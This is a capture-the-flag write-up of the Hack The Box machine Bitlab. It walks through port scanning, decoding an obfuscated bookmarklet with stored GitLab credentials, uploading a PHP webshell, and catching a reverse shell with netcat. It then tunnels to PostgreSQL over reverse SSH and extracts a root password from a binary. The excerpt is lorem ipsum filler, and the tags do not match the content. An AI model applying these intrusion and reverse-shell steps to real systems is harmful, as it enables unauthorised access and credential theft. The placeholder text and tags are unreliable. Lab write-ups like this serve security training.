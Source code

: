 ```yaml
---
layout: single
title: Bitlab - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-bitlab/bitlab_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bitlab/bitlab_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@kali:/opt/htb/machines/bitlab# nmapAutomatorDirb.sh 10.10.10.114 All
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
    |   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
    |_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
    80/tcp open  http    nginx
    | http-robots.txt: 55 disallowed entries (15 shown)
    | / /autocomplete/users /search /api /admin /profile
    | /dashboard /projects/new /groups/new /groups/*/edit /users /help
    |_/s/ /snippets/new /snippets/*/edit
    | http-title: Sign in \xC2\xB7 GitLab
    |_Requested resource was http://bitlab.htb/users/sign_in
    |_http-trane-info: Problem with XML parsing of /evox/about
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    DIRB
    + http://10.10.10.114:80/deploy.html (CODE:200|SIZE:2571)
    + http://10.10.10.114:80/explore.html (CODE:200|SIZE:13724)
    + http://10.10.10.114:80/public.html (CODE:200|SIZE:13810)
    + http://10.10.10.114:80/search.html (CODE:200|SIZE:13376)
    + http://10.10.10.114:80/search.php (CODE:200|SIZE:13374)

    NIKTO
    + /.well-known/openid-configuration: OpenID Provider Configuration Information.
    + OSVDB-3092: /search.vts: This might be interesting...
    + OSVDB-3092: /public/: This might be interesting...


2. On the page http://10.10.10.114/help/bookmarks.html we find a bookmark named "Gitlab Login" linking to a weird url.
    javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()

    By looking at it we can see that it's encoded hex, and something else. Decode it using https://malwaredecoder.com/
      javascript:(function(){
      document["getElementById"]("user_login")["value"]= "clave";
      document["getElementById"]("user_password")["value"]= "11des0081x"";

    Our first set of creds - clave:11des0081x

3. The creds don't work for SSH, but they do work on the login-page on port 80. Looking around on the page we find a few things
    .. http://10.10.10.114/root/profile: "TODO: Connect with postgresql"
    .. http://10.10.10.114/snippets/1:
        <?php
        $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
        $result = pg_query($db_connection, "SELECT * FROM profiles");

    psql is not reachable from our remote machine, maybe this is our way towards user / root from init.

4. We are able to upload files in http://10.10.10.114/root/profile/tree/master, upload a shell (webshell or reverse php)
   Using dirb we can locate the url for our shell. We know that index.php, README.md and developer.jpg are in the same folder.

   DIRB
    + http://bitlab.htb/profile/index.php (CODE:200|SIZE:4184)

   We can now reach our shell(s) by either ..
    http://bitlab.htb/profile/webshell.php
    http://bitlab.htb/profile/rev.php

    root@kali:/opt/htb/machines/bitlab# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.114] 56174
      Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
       20:57:55 up 5 min,  0 users,  load average: 3.04, 1.75, 0.79
      USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      /bin/sh: 0: can't access tty; job control turned off
    $

    Upgrade the shell for ease of management.
      www-data@bitlab:/$

5. Uploading lse.sh and running it shows that postgresql is up and running on it's default port - 5432.
    ================================================================( network )=====
    [*] net000 Services listening only on localhost............................ yes!
    ---
    tcp    LISTEN   0        128             127.0.0.1:3022          0.0.0.0:*
    tcp    LISTEN   0        128             127.0.0.1:5432          0.0.0.0:*

   And OpenSSH 7.2p2 on port 3022.
    www-data@bitlab:/dev/shm$ curl 127.0.0.1:3022
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6

6. By default, postgresql is running in Kali Linux. Stop the service, setup a SSH-tunnel and connect using rsql
    root@kali:/opt/htb/machines/bitlab# service postgresql stop

    www-data@bitlab:/srv/apps/profile/.git$ ssh -R 5432:127.0.0.1:5432 p3@10.10.14.10

    root@kali:/opt/htb/machines/bitlab# psql -h 127.0.0.1 -U profiles -d profiles
      Password for user profiles: (profiles)
      psql (12.1 (Debian 12.1-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
      Type "help" for help.
    profiles=>
    profiles=> TABLE profiles;
     id | username |        password
    ----+----------+------------------------
      1 | clave    | c3NoLXN0cjBuZy1wQHNz==
    (1 row)

    Decoding the password gives us "ssh-str0ng-p@ss" however we can't login with that password. Trying the
    encrypted password works tho.

7. Grab user.txt
    root@p3:/opt/htb/machines/bitlab# ssh clave@bitlab.htb
    clave@bitlab.htb's password: (c3NoLXN0cjBuZy1wQHNz==)
      Last login: Thu Nov 28 10:42:18 2019 from 10.10.14.10
    clave@bitlab:~$ cat user.txt
      1e3f****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the box as user Clave we find RemoteConnection.exe in the home folder. Reading the forums they suggest to study
   the challenge reverse EasyPass. Move the .exe to your Windows box, install Immunity Debugger and open the file.

2. "Search for" > "All referenced test strings" And I found the reference "clave".
    I set a breakpoint on the "MOV" function above the reference clave and run the program again.
    I get following output in my Registers Window:

      EAX 02C63AE0 UNICODE "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ECX 00000000
      EDX 00000033
      EBX 02C63A00 ASCII "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
      ESP 00CFFA40
      EBP 00CFFAC0
      ESI 02C63A33
      EDI 00CF0022
      EIP 00DC163C RemoteCo.00DC163C
      C 0  ES 002B 32bit 0(FFFFFFFF)
      P 1  CS 0023 32bit 0(FFFFFFFF)
      A 0  SS 002B 32bit 0(FFFFFFFF)
      Z 1  DS 002B 32bit 0(FFFFFFFF)
      S 0  FS 0053 32bit A62000(FFF)
      T 0  GS 002B 32bit 0(FFFFFFFF)
      D 0
      O 0  LastErr ERROR_INSUFFICIENT_BUFFER (0000007A)
      EFL 00000246 (NO,NB,E,BE,NS,PE,GE,LE)
      ST0 empty g
      ST1 empty g
      ST2 empty g
      ST3 empty g
      ST4 empty g
      ST5 empty g
      ST6 empty g
      ST7 empty g
                     3 2 1 0      E S P U O Z D I
      FST 0000  Cond 0 0 0 0  Err 0 0 0 0 0 0 0 0  (GT)
      FCW 027F  Prec NEAR,53  Mask    1 1 1 1 1 1

3. Go back to the Linux-box and ssh to get root.txt
    root@p3:~# ssh root@bitlab.htb
    root@bitlab.htb's password: (Qf7]8YSV.wDNF*[7d?j&eD4^)
    Last login: Fri Sep 13 14:11:14 2019
    root@bitlab:~# cat root.txt
      8d4c****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

PostgreSQL:
  https://gist.github.com/Kartones/dd3ff5ec5ea238d4c546
  https://www.postgresql.org/docs/8.3/app-psql.html

EasyPass:
  https://www.youtube.com/watch?v=zDjut5L_NnY
